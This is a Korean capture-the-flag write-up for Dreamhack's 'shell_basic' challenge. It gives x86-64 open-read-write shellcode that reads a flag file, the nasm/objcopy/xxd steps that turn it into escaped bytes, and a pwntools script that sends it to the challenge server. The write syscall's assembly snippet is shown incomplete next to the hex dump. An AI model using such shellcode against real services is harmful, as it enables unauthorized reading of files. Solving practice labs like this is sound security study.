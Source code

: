 # shell_basic (410)


## 문제

입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.

main 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 파일의 위치와 이름은 /home/shell_basic/flag_name_is_loooooong입니다.
감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!

플래그 형식은 DH{...} 입니다. DH{와 }도 모두 포함하여 인증해야 합니다.

https://dreamhack.io/wargame/challenges/410

## 풀이

1. assembly 코드 작성

orw를 사용해서 flag 파일을 읽어야 한다.

주어진 파일 경로 (/home/shell_basic/flag_name_is_loooooong)를 hex로 변환한 후, little endian 형식으로 바꿔주면 아래와 같은 형태가 된다.

```
0x676e6f6f6f6f6f6f
0x6c5f73695f656d61
0x6e5f67616c662f63
0x697361625f6c6c65
0x68732f656d6f682f
```

이를 데이터를 stack에 쌓아준다. (문자열의 끝을 나타내기 위해 처음에 0x00을 넣어준다)

```
section .text
global _start
_start:
  push 0x00
  mov rax, 0x676e6f6f6f6f6f6f
  push rax
  mov rax, 0x6c5f73695f656d61
  push rax
  mov rax, 0x6e5f67616c662f63
  push rax
  mov rax, 0x697361625f6c6c65
  push rax
  mov rax, 0x68732f656d6f682f
  push rax
  ```

  | syscall | rax | arg0 (rdi) | arg1 (rsi) | arg2 (rdx) |
| --- | --- | --- | --- | --- |
| read | 0x00 | unsigned int fd | char *buf | size_t count |
| write | 0x01 | unsigned int fd | const char *buf | size_t count |
| open | 0x02 | const char *filename | int flags | umode_t mode |

- open

```
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x02
syscall
```

rax : 0x02, rdi : stack pointer, rsi : 0 (O_RDONLY), rdx : 파일을 읽을 때, 의미를 갖지 않으므로 0

- read : open한 파일의 내용을 읽는 부분이다.
```
mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0
syscall
  ```
rax : 0, rdi : file descriptor (open의 결과값), rsi : stack pointer에 읽은 내용을 저장하기 위해 48바이트를 할당 (sub), rdx : 읽은 데이터의 길이

- write : 읽은 내용을 출력한다.
```
mov rdi, 1
mov rax, 0x1
```
rax : 0x1, rdi : 1 == file descriptor (STDOUT)

2. 컴파일

- assembly code를 elf형태로 변환 (shell_basic.o 파일 생성)
```
nasm -f elf64 shell_basic.asm
```

- bin파일 생성
```
objcopy --dump-section .text=shell_basic.bin shell_basic.o
```
- xxd로 내용 확인
```
xxd shell_basic.bin 

00000000: 6a00 48b8 6f6f 6f6f 6f6f 6e67 5048 b861  j.H.oooooongPH.a
00000010: 6d65 5f69 735f 6c50 48b8 632f 666c 6167  me_is_lPH.c/flag
00000020: 5f6e 5048 b865 6c6c 5f62 6173 6950 48b8  _nPH.ell_basiPH.
00000030: 2f68 6f6d 652f 7368 5048 89e7 4831 f648  /home/shPH..H1.H
00000040: 31d2 b802 0000 000f 0548 89c7 4889 e648  1........H..H..H
00000050: 83ee 30ba 3000 0000 b800 0000 000f 05bf  ..0.0...........
00000060: 0100 0000 b801 0000 000f 0548 31ff b83c  ...........H1..<
00000070: 0000 000f 05                             .....
```
- \xaa\xaa 형태로 보기 위해 awk를 사용 (추가 확인 필요)
```
xxd -p shell_basic.bin | fold -w2 | awk '{print "\\x" $0}' | tr -d '\n'
```
- 결과
```
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05
```

3. 데이터 전송

데이터 전송을 위해 pwntools를 사용해 파이썬 코드를 작성한다. (추가 확인 필요)

```
from pwn import *

p = remote("host3.dreamhack.games", 10929)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05"
p.sendafter(b": ", shellcode)
p.interactive()
```

- 결과
```
python3 send.py 
[+] Opening connection to host3.dreamhack.games on port 10929: Done
[*] Switching to interactive mode
DH{#################}
\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```